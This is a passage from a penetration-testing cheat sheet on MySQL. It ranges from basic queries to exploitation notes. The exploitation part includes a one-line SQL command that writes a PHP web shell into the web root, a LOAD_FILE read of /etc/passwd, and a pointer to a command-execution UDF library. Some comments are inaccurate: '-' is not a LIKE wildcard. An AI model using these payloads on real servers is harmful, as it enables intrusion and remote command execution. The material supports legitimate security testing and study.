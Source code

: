 ```sql
SELECT * FROM tabl WHERE clm LIKE 'admin%';		# starting with admin
SELECT * FROM tabl WHERE clm LIKE 'admin---';	# "" of lenght +3

# CHANGING VALUES

# Insert a record in table
INSERT INTO table_name VALUES (column1_value, column2_value, ...);
# Update specific records based on conditions
UPDATE table_name SET column1=newvalue1,... WHERE <condition>;


```

### Exploits

- SQL injection

- **Write**

  - [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). 

  - If connected to a web server:

    - Check read/write privileges

      ```bash
      show variables like "secure_file_priv";
      ```

      - If empty, the variable has no effect, which is not a secure setting.
      - If set to the name of a directory, the server limits import and export operations to work only with files in that directory.
      - If set to NULL, the server disables import and export operations.

    - Write a file in the webserver directory 

      ```bash
      SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
      ```

    - Browse to the location where the file is and execute our commands.

- **Read Local Files** (not allowed by default)

  ```bash
  select LOAD_FILE("/etc/passwd");
  ```

- **Authentication bypass v5.6.x**

  The server takes longer to respond to an incorrect password than to a  correct one. Thus, repeatedly authenticate with the same  incorrect password, will work.

## 3389tu - RDP

